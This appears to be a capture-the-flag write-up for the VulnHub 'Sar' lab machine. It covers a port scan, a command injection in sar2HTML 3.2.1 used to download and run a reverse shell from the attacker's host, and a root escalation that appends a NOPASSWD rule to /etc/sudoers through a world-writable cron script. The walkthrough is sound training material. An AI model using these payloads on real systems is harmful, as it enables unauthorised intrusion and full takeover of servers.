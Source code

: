 # Sar | VulnHub
https://www.vulnhub.com/entry/sar-1,425/

### 1. Scan
```bash
Nmap scan report for 192.168.34.153
Host is up, received arp-response (0.0018s latency).
Scanned at 2021-07-17 01:06:04 EDT for 13s
Not shown: 65534 closed ports
Reason: 65534 resets
PORT   STATE SERVICE REASON         VERSION
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.29 ((Ubuntu))
| http-methods: 
|_  Supported Methods: HEAD GET POST OPTIONS
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
MAC Address: 00:0C:29:5D:14:AD (VMware)
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.6
TCP/IP fingerprint:
OS:SCAN(V=7.91%E=4%D=7/17%OT=80%CT=1%CU=%PV=Y%DS=1%DC=D%G=N%M=000C29%TM=60F
OS:26549%P=x86_64-pc-linux-gnu)SEQ(SP=102%GCD=1%ISR=105%TI=Z%CI=Z%II=I%TS=A
OS:)OPS(O1=M5B4ST11NW7%O2=M5B4ST11NW7%O3=M5B4NNT11NW7%O4=M5B4ST11NW7%O5=M5B
OS:4ST11NW7%O6=M5B4ST11)WIN(W1=FE88%W2=FE88%W3=FE88%W4=FE88%W5=FE88%W6=FE88
OS:)ECN(R=Y%DF=Y%TG=40%W=FAF0%O=M5B4NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%TG=40%S=O%A=
OS:S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%TG=40%W=0%S=A%A=Z%F=R%O=%RD=0%
OS:Q=)T5(R=Y%DF=Y%TG=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%TG=40%W=0%
OS:S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%TG=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1
OS:(R=N)IE(R=Y%DFI=N%TG=40%CD=S)

Uptime guess: 0.261 days (since Fri Jul 16 18:51:01 2021)
Network Distance: 1 hop
TCP Sequence Prediction: Difficulty=258 (Good luck!)
IP ID Sequence Generation: All zeros

TRACEROUTE
HOP RTT     ADDRESS
1   1.76 ms 192.168.34.153

Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Jul 17 01:06:17 2021 -- 1 IP address (1 host up) scanned in 17.06 seconds
```
The machine is running an Apache server on port 80.

### 2. Enumeration
Check robots.txt.
```bash
┌──(kali㉿kali)-[]-[~/Desktop]
└─$ curl http://192.168.34.153/robots.txt                                                          
sar2HTML
```
At http://192.168.34.153/sar2HTML/ is an instance of the sar2html web app, version 3.2.1. Looks to be some sort of tool which generates server reports.  
Since the version is known, check for exploits.
```bash
┌──(kali㉿kali)-[]-[~/Desktop]
└─$ searchsploit sar2html
------------------------------------------------------- ---------------------------------
 Exploit Title                                         |  Path
------------------------------------------------------- ---------------------------------
sar2html 3.2.1 - 'plot' Remote Code Execution          | php/webapps/49344.py
Sar2HTML 3.2.1 - Remote Command Execution              | php/webapps/47204.txt
------------------------------------------------------- ---------------------------------
Shellcodes: No Results
Papers: No Results
```
Cool.

### 3. Test the sar2HTML exploit
The exploit route isn't too difficult to reproduce.
```bash
┌──(kali㉿kali)-[]-[~/Desktop]
└─$ searchsploit -x 47204 | cat
  Exploit: Sar2HTML 3.2.1 - Remote Command Execution
      URL: https://www.exploit-db.com/exploits/47204
     Path: /usr/share/exploitdb/exploits/php/webapps/47204.txt
File Type: ASCII text, with CRLF line terminators

# Exploit Title: sar2html Remote Code Execution
# Date: 01/08/2019
# Exploit Author: Furkan KAYAPINAR
# Vendor Homepage:https://github.com/cemtan/sar2html 
# Software Link: https://sourceforge.net/projects/sar2html/
# Version: 3.2.1
# Tested on: Centos 7

In web application you will see index.php?plot url extension.

http://<ipaddr>/index.php?plot=;<command-here> will execute 
the command you entered. After command injection press "select # host" then your command's 
output will appear bottom side of the scroll screen.
```

So just curl with URL with the right parameter.
```bash
┌──(kali㉿kali)-[]-[~/Desktop]
└─$ curl 'http://192.168.34.153/sar2HTML/index.php?plot=;id' -s | grep www-data
<div style="height:100px; vertical-align: top;"><form METHOD=POST ACTION="index.php"><input type="hidden" name="plot" value=";id"><select class="select_text" name=host onchange="this.form.submit();"><option value=null selected>Select Host</option><option value=There is no defined host...>There is no defined host...</option><option value=uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
The command output is there.

### 4. Get a shell
To get a shell, firstly create a python file with some reverse shell code in it and host it.
```bash
┌──(kali㉿kali)-[]-[~/Desktop]
└─$ vim rev.py                    
                                                                                                                              
┌──(kali㉿kali)-[]-[~/Desktop]
└─$ sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Retrieve the file using the exploit and then run it with a listener open.
```bash
┌──(kali㉿kali)-[]-[~/Desktop]
└─$ curl 'http://192.168.34.153/sar2HTML/index.php?plot=;wget%20http://192.168.34.138/rev.py'
        <html>
        <head>
...
┌──(kali㉿kali)-[]-[~/Desktop]
└─$ curl 'http://192.168.34.153/sar2HTML/index.php?plot=;python3%20rev.py'
```

The shell opens in the listener.
```bash
┌──(kali㉿kali)-[]-[~/Desktop]
└─$ nc -lvnp 9999
listening on [any] 9999 ...
connect to [192.168.34.138] from (UNKNOWN) [192.168.34.153] 46742
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

### 5. Enumerate from foothold
There is only one other user on the machine besides root with a bash shell, the user "love". There are also some readable files in the user's home directory.
```bash
www-data@sar:/var/www/html/sar2HTML$ cat /etc/passwd | grep bash 
root:x:0:0:root:/root:/bin/bash
love:x:1000:1000:love,,,:/home/love:/bin/bash
www-data@sar:/var/www/html/sar2HTML$ cd /home
www-data@sar:/home$ ls -la
total 12
drwxr-xr-x  3 root root 4096 Oct 20  2019 .
drwxr-xr-x 24 root root 4096 Oct 20  2019 ..
drwxr-xr-x 17 love love 4096 Oct 21  2019 love
www-data@sar:/home$ cd love
www-data@sar:/home/love$ ls
Desktop  Documents  Downloads  Music  Pictures  Public  Templates  Videos
www-data@sar:/home/love$ ls Desktop
user.txt
www-data@sar:/home/love$ cat Desktop/user.txt
```

Looking at the universal crontab, there is one job running a script every 5 mins as root. It's not writable by any user other than root.
```bash
www-data@sar:/tmp$ cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#
*/5  *    * * *   root    cd /var/www/html/ && sudo ./finally.sh
www-data@sar:/tmp$ ls -l /var/www/html/finally.sh 
-rwxr-xr-x 1 root root 22 Oct 20  2019 /var/www/html/finally.sh
www-data@sar:/tmp$ cat /var/www/html/finally.sh 
#!/bin/sh

./write.sh
```

The script calls "write.sh" in the same directory.
```bash
www-data@sar:/tmp$ cat /var/www/html/write.sh
#!/bin/sh

touch /tmp/gateway
www-data@sar:/tmp$ ls -l /var/www/html/write.sh 
-rwxrwxrwx 1 www-data www-data 30 Oct 21  2019 /var/www/html/write.sh
```
This one is world writable.

### 6. Escalate to root
Using nano, add a line to the cron job which will append a line to the /etc/sudoers file, allowing the www-data user to escalate to root without a password.
```language
www-data@sar:/tmp$ nano /var/www/html/write.sh
www-data@sar:/tmp$ cat /var/www/html/write.sh   
#!/bin/sh

touch /tmp/gateway
echo "www-data ALL=(ALL) NOPASSWD: ALL" >> /etc/sudoers
```

Wait 5 minutes, then start an interactive session as root.
```bash
www-data@sar:/tmp$ sudo -i
root@sar:~# whoami 
root
```